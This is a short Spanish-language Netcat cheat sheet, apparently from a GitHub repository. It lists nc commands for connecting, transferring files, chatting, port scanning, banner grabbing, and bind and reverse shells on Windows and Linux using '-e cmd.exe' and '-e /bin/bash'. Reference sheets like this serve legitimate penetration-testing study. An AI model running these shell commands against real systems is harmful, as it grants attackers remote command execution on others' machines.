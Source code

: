 # Netcat Cheat Sheet

#### Conectarnos a un puerto de un host

- `nc -nv <IPAddress> <Port>`: Conexión a un host.

#### Transferir un archivo

- `nc -nvlp <Port> > output.txt`: Host a recibir el archivo en el puerto especificado.

- `nc -nv <IPAddress> <Port> < input.txt`: Host que envia el archivo al host destino.

#### Chatear entre hosts

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Host se conecta al host al puerto abierto.

#### Bind Shell (Windows)

- `nc -nvlp <Port> -e cmd.exe`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Conexión a la shell.

#### Bind Shell (Linux)

- `nc -nvlp <Port> -e /bin/bash`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Conexión a la shell.

#### Reverse Shell (Windows)

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port> -e cmd.exe`: Conexión al host y mandamos la shell.

#### Reverse Shell (Linux)

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port> -e /bin/bash`: Conexión al host y mandamos la shell.

#### Escanear Puertos TCP

- `nc -nvz <IPAddress> <Port-Range>`: Escanear la IP del host con el rango de puertos.

#### Escanear Puertos UDP

- `nc -nvzu <IPAddress> <Port-Range>`: Escanear la IP del host con el rango de puertos.

#### Banner Grabbing

- `echo "" | nc -nv -w1 <IPAddress> <Port>`: Banner Grabbing.

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)